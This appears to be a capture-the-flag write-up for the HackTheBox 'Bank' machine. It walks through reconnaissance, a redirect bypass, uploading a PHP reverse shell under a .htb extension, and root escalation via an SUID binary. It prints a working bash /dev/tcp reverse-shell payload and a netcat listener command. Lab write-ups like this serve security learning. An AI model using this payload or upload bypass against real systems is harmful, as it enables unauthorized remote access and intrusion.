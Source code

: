 # This is a write up for the machine Bank from HackTheBox.eu

host: 10.10.10.29

Serivce Discovery
```
nmap -A 10.10.10.29

Host is up (0.23s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
53/tcp open domain
| dns-nsid: 
|_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank — Logi
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server  http://10.10.10.29 but it was just the default apache site.I saw that dns was open so I edited `/etc/hosts` to contain the ip of the machine plus the name server of the machine. The default name server for all HackTheBox machines is `<name of box>.htb` so I edited the hosts file as followed

cat /etc/hosts
```
127.0.0.1 localhost
127.0.1.1 Debian
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
10.10.10.29 bank.htb
```
Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to bank.htb/login.php it was a login page for the bank site, I used curl to see what was in bank.htb/ because I couldn’t access the root directory of the site it would always redirect me to /login.php with curl -v http://bank.htb you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.
```
< HTTP/1.1 302 Found
< Date: Fri, 25 Aug 2017 15:50:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9–1ubuntu4.21
< Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< location: login.php
< Content-Length: 7322
< Content-Type: text/html
```
I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some were 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. I noticed people were having trouble with that, Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.

![ScreenShot](https://raw.github.com/{0katz}/{CTF-writeups}/{Bank-HackTheBox}/{image.png})

I added http://bank.htb/login.php to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access http://bank.htb/ and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you curl http://bank.htb/support.php and scroll through the html code you can see that the admin left him self a little nice note for himself.

> “<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”

I created a php shell as followed

<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);

and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell got uploaded. Now all I had to do is set up a netcat listener to catch the shell. `nc -l -v -p 4444`
once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`

`www-data@bank:/var/www/bank/uploads$`

We can go into the user’s home directory chris and get the user flag user.txt,

**Got User Flag!**

Now it's time for privilege escalation. I started by just browsing through the directories and in `/var` I found a folder named htb inside htb I found two files with execute permissions and owned by root.
```
www-data@bank:/var/htb$ ls -la 
total 16
drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
drwxr-xr-x 14 root root 4096 May 29 18:41 ..
drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
-rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency
```
it seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…
My privilege before running the exploit

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

My privileges after running the emergency exploit
```
./emergency 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
and now we can get the root flag. cat /root/root.txt

**Got Root Flag!**

<a href="https://imgflip.com/gif/1zsvkv"><img src="https://i.imgflip.com/1zsvkv.gif" title="made at imgflip.com"/></a>
